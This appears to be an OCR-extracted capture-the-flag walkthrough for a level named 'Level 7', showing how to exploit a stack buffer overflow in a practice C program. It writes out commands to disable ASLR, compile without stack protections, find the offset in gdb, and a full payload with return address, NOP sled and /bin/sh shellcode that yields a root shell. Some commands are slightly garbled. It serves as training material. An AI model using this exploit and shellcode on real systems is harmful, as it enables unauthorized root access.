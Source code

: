 Level 7
#
In this level we will exploit a buffer overflow: The buffer overflow is an attack that occurs when a program written in the C language exceeds the limits of a buffer, which can allow an attacker to overwrite memory and execute malicious code. To perform a buffer overflow on C code under Linux, you can use commands such as "gcc" to compile the source code into machine language, "gdb" to debug the program and identify potential vulnerabilities, and tools like "Valgrind" to detect memory leaks and memory management errors.
#
cd ..
cd 07_tropical_fruits
ls -al
cat level7.c
We will start by disabling some protections (the "aslr")

cat /proc/sys/kernel/randomize_va_space
"the variable is set to 2"

echo 0 > /proc/sys/kernel/randomize_va_space (to disable the ASLR protection)
Now we need to compile our program:

gcc -z execstack -fno-stack-protector -m32 level7.c -o level7~
-z execstack: makes the stack executable, allowing us to execute instruction sets in memory, which will allow us to execute our shell code in memory
-fno-stack-protector: this option allows us to bypass certain protections like canary, this cancels the protection on the "buffer" variable that we will exploit
-m32: for 32-bit
-o: for output

gdb: is a Linux debugger

gdb level7

nsf-pattern_create -l

nsf-pattern_offset -q 0Ab1

we execute these lines to determine the size of our offset, the location where we should introduce the shell code
run $(python -c "print 'A'* 312)

info frame

print $esp

./level7 $(python -c print 'A'*312 + '\x10\xd2\xff\xff'+ '\x90'*30 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' " )

we are now in root mode
and therefore access the file in which the solution is located
#




